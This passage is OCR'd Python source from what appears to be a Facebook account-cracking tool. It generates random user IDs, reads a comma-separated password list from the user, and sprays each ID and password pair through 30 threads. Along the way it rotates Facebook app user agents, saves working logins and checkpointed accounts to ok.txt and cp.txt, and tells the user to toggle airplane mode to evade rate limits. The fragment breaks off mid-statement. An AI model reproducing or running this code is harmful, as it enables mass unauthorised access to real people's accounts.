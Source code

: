 		if (limit)>500000:

			exit("\n%s [!] DON'T CROSS THE LIMIT BRO :)"%(R))

		try:

			for n in range(limit):

				_ = random.randint(x,xx)

				__ = idx

				self.id.append(__+str(_))

			print("\033[0;93m [+] TOTAL ID -> \033[0;91m%s\033[0;97m"%(len(self.id))) 

			with ThreadPoolExecutor(max_workers=30) as coeg:

				print("\n%s [!] USE %s, %s(COMMA)%s FOR SEPARATOR "%(Y,G,B,Y))

				print("%s EXAMPLE : %s123456,1234567,123456789"%(Y,G))

				listpass = input("%s [?] ENTER PASSWORD :%s "%(Y,G))

				if len(listpass)<=5:

					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(R))

				print("%s [*] CRACK WITH PASSWORD -> [\033[0;91m%s\033[0;93m]"%(Y,listpass))

				print("\n%s [+] OK RESULTS SAVED IN -> ok.txt"%(G))

				print("%s [+] CP RESULTS SAVED IN -> cp.txt"%(Y))

				print("%s [!] IF NO RESULT TURN ON AIRPLANE MODE 5 SECONDS\x1b[0m\n"%(R))

				for user in self.id:

					coeg.submit(self.api, user, listpass.split(","))

			exit("\n\n%s [#] CRACK COMPLETE..."%(G))

		except Exception as e:exit(str(e))

		

	def api(self, uid, pwx):

		ua = random.choice(["Mozilla/5.0 (iPhone; CPU iPhone OS 16_0 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) CriOS/107.0.5304.66 Mobile/15E148 Safari/604.1","Mozilla/5.0 (Linux; Android 11; SM-A202F Build/RP1A.200720.012; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/105.0.5195.136 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/390.0.0.27.105;]",

							"Mozilla/5.0 (Linux; Android 11; SM-G991B Build/RP1A.200720.012; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/106.0.5249.126 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/390.0.0.27.105;]",

		                     "Mozilla/5.0 (Linux; Android 10; SM-A750G Build/QP1A.190711.020; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/106.0.5249.126 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/390.0.0.27.105;]"])

		sys.stdout.write(

			"\r\r %s\033[0;92m[BR3K] : %s/%s - s/%s -> \033[0;92m [OK:%s]"%(B,self.loop, len(self.id), len(self.ok), len(self.cp))
